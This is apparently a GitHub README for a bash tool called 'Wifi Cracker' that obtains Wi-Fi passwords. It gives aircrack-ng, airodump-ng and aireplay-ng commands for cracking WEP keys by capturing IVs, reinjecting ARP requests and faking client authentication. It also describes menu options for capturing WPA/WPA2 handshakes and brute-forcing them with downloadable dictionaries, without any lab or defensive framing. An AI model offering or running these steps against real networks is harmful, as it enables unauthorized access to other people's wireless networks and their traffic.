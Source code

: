 #**Wifi Cracker**

##Program made in bash that allows you to obtain Wifi's passwords.

###Program works with WPA/WPA2 protocol using PSK authentication, for this option Dictionaries are needed for brute forcing

###Also you can use the program with WEP Wifi's protocol, for this option you don't need any dictionary

###Remember you need to install 'aircrack-ng' and 'macchanger':

| Program  | command |
| ------------- | ------------- |
| **aircrack-ng**  | sudo apt-get install aircrack-ng  |
| **macchanger**  | sudo apt-get install macchanger  |

###Mediafire links for dictionaries: [Dictionaries](https://mega.nz/#F!PB0ljZwC!H1CdY80f0mrTS4AdUm3BZw)

##**WEP Protocol**

###To capture a **WEP** Wifi password you have to do the following steps:
 
###Step 1: The first step you have to do is active the **monitor mode**, same as WPA/WPA2 protocol
 
```airmon-ng start wlp2s0 or airmon-ng start wlan0```
 
###Step 2: Execute airodump-ng to save the IV packages (packages where the password travels)
 
```airodump-ng -w datos wlp2s0 ó airodump-ng -w datos wlan0```
 
###where '-w datos' indicates the file name where data will be saved
 
###Each access point works in a channel (CH). To improve the attack, you can use '-c (CH)' to filter only AP data. 

###For example:
 
```airodump-ng --ivs -w datos -c 11 wlp2s0 ó airodump-ng --ivs -w datos -c 11 wlan0```
 
###Step 3: Now we just need to accelerate the capture IV's process through the injected traffic from the attacker's computer. To do this you will use the authenticated and associated client in the next step. Let capture an ARP-request packet, and then reinjected into the network to dramatically increase the number of IVs packets.
 
```aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlp2s0 ó aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlan0```
 
###where '-3' indicates attack type and '-x 600' allow us to indicates the speed of the reinjected packages.
 
###Step 4: To inject packets you are going to authenticate and associate with a fictitious network client.
 
```aireplay-ng -1 10 -e NOMBREWIFI -a MAC_AP -h MAC_FALSO_CLIENTE wlp2s0```
 
###where '-1 10' indicates you are goint to send 10 authentication packages, '-a MAC_AP' indicates the MAC point acces adress and '-h MAC_FALSO_CLIENTE' indicates a fake MAC adress.
 
###Last Step: Now you can execute on another console **aircrack-ng** to analyze the IV's packages obtained by **airodump-ng** and stored in **datos-01.ivs** file.
 
```aircrack-ng -0 datos-01.ivs```
 
###The process can take about 10 minutes to WEP 64-bit passwords and 20 minutes for 128-bit WEP passwords. If you want to speed up the process you can indicate the length of the WEP password as follows: 
 
```aircrack-ng -0 -n 64 datos-01.ivs```
 
###where '-n 64' indicates for example the length of WEP password.
 
###When aircrack-ng ends, he show us the WEP password on screen.

###---------------------------------------------------------------------------------------------------------------------------

### All the process has to be done from 3 terminals. First you have to choose option 1, and then monitor interface is enabled. After that, you choose option 4 and after targetting a Wifi, you have to open a new terminal. Then execute the program again and (with Terminal 1 running) choose option 5 in Terminal 2. You have to wait 1 minute in option 5, and then press Ctrl+C. After that, open a new terminal and choose option 7 from Terminal 3 for finishing. If option 7 doesn't work, try again... that's because you need the user reconnects to the network.

###That's the error you could have

![Little Mistake](error.png)

###Otherwise, routter password appears

![Working Good](funciona.png)

###For option 6, you make a fake auth client. Sometimes, there are no clients connected to the network, so you have to create one tricking the routter. You can use your own mac to make fake authentications.

###Here you can see there are some clients connected, but particulary... i want to authenticate the client whose MAC adress is C8:38:70:59:31:4B:

![Unassociated](Unassociated.png)

###So doing option 6 look what happens with C8:38:70:59:31:4B, now it's connected to the network and you can start doing option 5 with this client:

![Unassociated](Associated.png)


